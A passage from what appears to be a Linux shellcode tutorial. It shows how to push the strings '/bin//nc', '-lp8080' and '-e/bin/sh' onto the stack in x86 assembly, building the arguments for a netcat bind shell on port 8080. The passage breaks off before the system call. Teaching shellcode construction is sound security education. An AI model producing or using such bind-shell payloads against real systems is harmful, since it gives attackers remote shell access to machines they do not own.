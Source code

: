 Another way is using the instruction `push byte` to push one byte, `push word`
to push two bytes. Then the string will be divided as:

ascii: `c`     -> hex: `0x63`  
ascii: `n/`    -> hex: `0x6e2f`  
ascii: `nib/`  -> hex: `0x6e69622f`  

```nasm
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
```

The second argument `-lp8080` also isn't a multiple of four bytes. We can't use slashes here so we'll use the second method.

```python
>>> '-lp8080'[::-1]
'0808pl-'
```

ascii: `0`     -> hex: `0x30`  
ascii: `80`    -> hex: `0x3830`  
ascii: `8pl-`  -> hex: `0x38706c2d`  

```nasm
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
```

And do it again with the third argument.
```nasm
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
```

Now we need to construct the array of those arguments. Remember that it also has to be null terminated!
```nasm
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
```

The stack should look like this:
![stack](https://idafchev.github.io/blog/assets/images/linux_shellcode/stack.png){: .align-center}  
